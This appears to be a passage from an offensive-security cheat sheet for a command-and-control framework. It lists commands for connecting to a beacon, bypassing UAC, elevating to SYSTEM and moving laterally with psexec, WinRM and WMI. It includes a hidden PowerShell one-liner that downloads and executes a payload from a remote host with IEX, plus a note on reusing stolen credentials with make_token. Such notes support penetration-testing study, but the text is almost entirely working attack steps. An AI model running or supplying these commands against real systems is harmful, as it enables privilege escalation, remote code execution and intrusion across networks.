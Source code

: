 **Connect to beacon**

```
connect <IP> <PORT>
```

**UAC bypass method 1**

```
elevate uac-token-duplication <LISTENER>
```

**UAC bypass method 2 runasadmin**

```
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
connect localhost 4444
```

* Not all UAC bypasses are created equal, can elevate to system with:

**Elevate to system**

```
elevate svc-exe
```

### Lateral movement

**Jump**

```
jump [method] [target] [listener]

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

**Remote-exec**

```
remote-exec [method] [target] [command]

    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```

**Using credentials**

* Each of these strategies are compatible with the various credential and impersonation methods described in the next section, Credentials & User Impersonation. For instance, if you have plaintext
* credentials of a domain user who is a local administrator on a target, use `make_token` and then `jump` to use that user's credentials to move laterally to the target.
